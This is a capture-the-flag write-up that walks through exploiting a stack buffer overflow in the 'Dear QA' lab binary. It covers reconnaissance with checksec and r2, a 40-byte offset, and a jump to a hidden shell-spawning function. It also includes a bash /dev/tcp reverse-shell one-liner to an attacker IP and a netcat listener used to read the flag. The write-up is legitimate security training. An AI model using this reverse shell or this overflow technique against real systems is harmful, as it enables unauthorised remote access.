 # Dear QA

<img src='dqa.png' alt='dqa' width=200 >

This is a binary exploitation challenge with a buffer overflow vulnerabily

Reminds me of '0xDiablos' challenge I did on hackthebox

Local exploitation first, then remote/development exploit

## Local exploitation

We get informations first

```
└──╼ $file DearQA.DearQA
DearQA.DearQA: ELF 64-bit LSB executable, x86-64, version 1 (SYSV), dynamically linked, interpreter /lib64/ld-linux-x86-64.so.2, for GNU/Linux 2.6.32, BuildID[sha1]=8dae71dcf7b3fe612fe9f7a4d0fa068ff3fc93bd, not stripped
```

```
└──╼ $checksec DearQA.DearQA
[*] '/home/yourUser/Desktop/DearQA.DearQA'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
```
Then the basics

```
└──╼ $strings  DearQA.DearQA
/lib64/ld-linux-x86-64.so.2
libc.so.6
fflush
__isoc99_scanf
puts
printf
stdout
execve
__libc_start_main
__gmon_start__
GLIBC_2.7
GLIBC_2.2.5
fffff.
[]A\A]A^A_
Congratulations!
You have entered in the secret function!
/bin/bash
Welcome dearQA
I am sysadmin, i am new in developing
What's your name: 
Hello: %s
;*3$"

...

```

A secret function? interresting!

At this point I could fire up Ghidra or IDA, but I find those too powerful

I am trying to learn as much as possible so I stick to simpler tools like gdb and r2

So for the moment I use r2 and analyse the binary (I already gave execution permission and tested it)

```
└──╼ $r2 -d ./DearQA.DearQA
Process with PID 19964 started...
= attach 19964 19964
bin.baddr 0x00400000
Using 0x400000
asm.bits 64

[0x7f6147a2f090]> aaa
[x] Analyze all flags starting with sym. and entry0 (aa)
[x] Analyze function calls (aac)
[x] Analyze len bytes of instructions for references (aar)
[x] Check for vtables
[TOFIX: aaft can't run in debugger mode.ions (aaft)
[x] Type matching analysis for all functions (aaft)
[x] Propagate noreturn information
[x] Use -AA or aaaa to perform additional experimental analysis.

[0x7f6147a2f090]> afl
0x00400590    1 41           entry0
0x00400540    1 6            sym.imp.__libc_start_main
0x004005c0    4 50   -> 41   sym.deregister_tm_clones
0x00400600    4 58   -> 55   sym.register_tm_clones
0x00400640    3 28           sym.__do_global_dtors_aux
0x00400660    4 38   -> 35   entry.init0
0x004007a0    1 2            sym.__libc_csu_fini
0x00400686    1 61           sym.vuln
0x00400520    1 6            sym.imp.puts
0x00400570    1 6            sym.imp.fflush
0x00400550    1 6            sym.imp.execve
0x004007a4    1 9            sym._fini
0x00400730    4 101          sym.__libc_csu_init
0x004006c3    1 109          main
0x00400530    1 6            sym.imp.printf
0x00400580    1 6            sym.imp.__isoc99_scanf
0x004004f0    3 26           sym._init
0x00400560    1 6            loc.imp.__gmon_start__
```
`main` is usually a good start, but it does nothing special 

The strings were taling about a "secret function"

Among the symbols we got a `sym.vuln` function that look interresting

```
[0x7f6147a2f090]> pdf @sym.vuln
┌ 61: sym.vuln ();
│           0x00400686      55             push rbp
│           0x00400687      4889e5         mov rbp, rsp
│           0x0040068a      bfb8074000     mov edi, str.Congratulations_ ; 0x4007b8 ; "Congratulations!"
│           0x0040068f      e88cfeffff     call sym.imp.puts           ; int puts(const char *s)
│           0x00400694      bfd0074000     mov edi, str.You_have_entered_in_the_secret_function_ ; 0x4007d0 ; "You have entered in the secret function!"
│           0x00400699      e882feffff     call sym.imp.puts           ; int puts(const char *s)
│           0x0040069e      488b056b0520.  mov rax, qword [obj.stdout] ; obj.stdout__GLIBC_2.2.5
│                                                                      ; [0x600c10:8]=0
│           0x004006a5      4889c7         mov rdi, rax
│           0x004006a8      e8c3feffff     call sym.imp.fflush         ; int fflush(FILE *stream)
│           0x004006ad      ba00000000     mov edx, 0
│           0x004006b2      be00000000     mov esi, 0
│           0x004006b7      bff9074000     mov edi, str._bin_bash      ; 0x4007f9 ; "/bin/bash"
│           0x004006bc      e88ffeffff     call sym.imp.execve
│           0x004006c1      5d             pop rbp
└           0x004006c2      c3             ret
```
Bingo! that's it! But It's never called in main ( or anywhere ? )

How could we reach it? the answer is: `Buffer Overflow`

When I executed the binary and saw it was taking input I immediately suspected it

You know already how to test for BOF, mad-long inputs!

You can generate them with any tool or do it manually (barbaric)

But it's important to find the right offset (how many characters make a BOF ?)

I found my offset at `40` characters

```
└──╼ $./DearQA.DearQA
Welcome dearQA
I am sysadmin, i am new in developing
What's your name: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Hello: aaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaaa
Erreur de segmentation

```

So now We got what we need! Our objective is to jump to the `vuln` function address

from r2 we got it! it's `0x00400686`

so we just add it to our payload (convert it to little endian first)

I wrote a python script for that, using `pwntools` (I like pwntools)



## Remote exploitation

I won't say much here, as we did the hardest part already

We just have to connect to the remote server and send our payload

`pwntools` can do that too. I adapt my script and use it with `python3`

```
└──╼ $python3 bufferoverflow.py
[*] '/home/nair0lf32/Desktop/Stuff/THM/DearQA/DearQA.DearQA'
    Arch:     amd64-64-little
    RELRO:    No RELRO
    Stack:    No canary found
    NX:       NX disabled
    PIE:      No PIE (0x400000)
    RWX:      Has RWX segments
[+] Opening connection to 10.10.81.146 on port 5700: Done
[*] Initialisation of BOF attack
/home/nair0lf32/Desktop/Stuff/THM/DearQA/bufferoverflow.py:18: BytesWarning: Text is not bytes; assuming ASCII, no guarantees. See https://docs.pwntools.com/#bytes
  connection.recvuntil("What's your name: ")
[*] Payload sent
[*] Switching to interactive mode



ctf@dearqa:/home/ctf$ $  

```
And we did it! the secret function gave us a shell (like shown in local)

Now we have access to the server but we cant see our commands output

We can get a proper shell then

```
ctf@dearqa:/home/ctf$ $ bash -c 'exec bash -i &>/dev/tcp/10.8.226.203/4444 <&1'

$  
```

Then our listenner got us in

```
└──╼ $nc -lnvp 4444
listening on [any] 4444 ...
connect to [10.0.2.15] from (UNKNOWN) [10.0.2.2] 48729
bash: cannot set terminal process group (445): Inappropriate ioctl for device
bash: no job control in this shell
ctf@dearqa:/home/ctf$ ls
ls
DearQA
dearqa.c
flag.txt
```

```ctf@dearqa:/home/ctf$ cat flag.txt
cat flag.txt
THM{Fl4G_Fr0m_Q4_t0_D3v}
```
I am starting to really like those pwn challenges!

Doing further readings I learnt that actually when you examine the memory addresses (gdb or objdump)

after the segfault, you get the offset at 40, but the buffer size is actually 32 bytes

The next 8 bytes are used to reach the RSP and access the vuln function

It doesnt change much as we can fill any characters in the RSP, but it's good to know

Keep learning folks!
